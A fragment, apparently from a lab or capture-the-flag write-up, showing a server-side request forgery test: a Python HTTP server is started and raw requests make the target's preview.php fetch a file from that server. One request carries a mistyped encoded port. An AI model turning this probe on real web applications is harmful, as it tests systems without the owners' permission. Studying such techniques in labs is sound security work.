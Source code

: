 <br>
<br>

```bash
:~# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

<br>
<br>

```bash
GET /preview.php?url=http%3A%2F%2Fxx.xxx.xx.xx%3A80002Ftesting.txt HTTP/1.1
Host: xx.xx.xxx.xx
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://xx.xx.xxx.xx/
Upgrade-Insecure-Requests: 1
Priority: u=4


```

```bash
HTTP/1.1 200 OK
Date: Sat, 06 Sep 2025 xx:xx:xx GMT
Server: Apache/2.4.58 (Ubuntu)
Content-Length: 0
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/plain;charset=UTF-8


```

<br>
<br>

```bash
GET /preview.php?url=http%3A%2F%2Fxx.xxx.xx.xx%3A8000%2Ftesting.txt HTTP/1.1
Host: xx.xx.xxx.xx
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://xx.xx.xxx.xx/
Upgrade-Insecure-Requests: 1
Priority: u=4


```
